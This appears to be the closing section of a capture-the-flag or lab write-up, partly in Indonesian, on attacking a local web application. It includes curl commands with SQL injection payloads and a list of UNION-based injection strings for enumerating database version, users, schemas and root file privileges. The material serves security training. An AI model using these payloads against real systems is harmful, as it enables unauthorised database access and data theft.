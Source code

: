 ### Web Application Testing
```bash
# Manual SQL injection testing
curl -X GET "http://localhost:8080/dashboard.php?search=%27%20ORDER%20BY%204%23"
curl -X GET "http://localhost:8080/dashboard.php?search=%27%20UNION%20SELECT%20%27test%27,NULL,NULL,NULL%23"

# Burp Suite
# - Intercept requests
# - Test systematic SQL injection payloads
# - Analyze column structure and data extraction
```

## 🎓 Learning Points

### 1. Reconnaissance adalah Kunci
- Selalu mulai dengan port scanning
- Directory enumeration mengungkap file sensitif
- Information gathering dari source code dan comments

### 2. SQL Injection Techniques
- Authentication bypass dengan OR conditions
- Union-based injection untuk data extraction
- Information schema untuk database enumeration

### 3. XSS Discovery
- Stored XSS lebih berbahaya dari reflected XSS
- Selalu check input fields yang tidak di-sanitize
- XSS bisa digunakan untuk session hijacking

### 4. Privilege Escalation
- Admin access membuka lebih banyak attack surface
- Kombinasi vulnerabilities lebih powerful
- Systematic approach menghasilkan complete compromise

### 5. Methodology
- Follow a systematic approach
- Document semua findings
- Chain exploits untuk maximum impact

## 🔧 Advanced Techniques

### Database Enumeration
```sql
-- Get database version
' UNION SELECT 1,@@version,3,4,5-- 

-- Get current user
' UNION SELECT 1,user(),3,4,5-- 

-- Get all databases
' UNION SELECT 1,schema_name,3,4,5 FROM information_schema.schemata-- 

-- Get file privileges (if available)
' UNION SELECT 1,file_priv,3,4,5 FROM mysql.user WHERE user='root'-- 
```
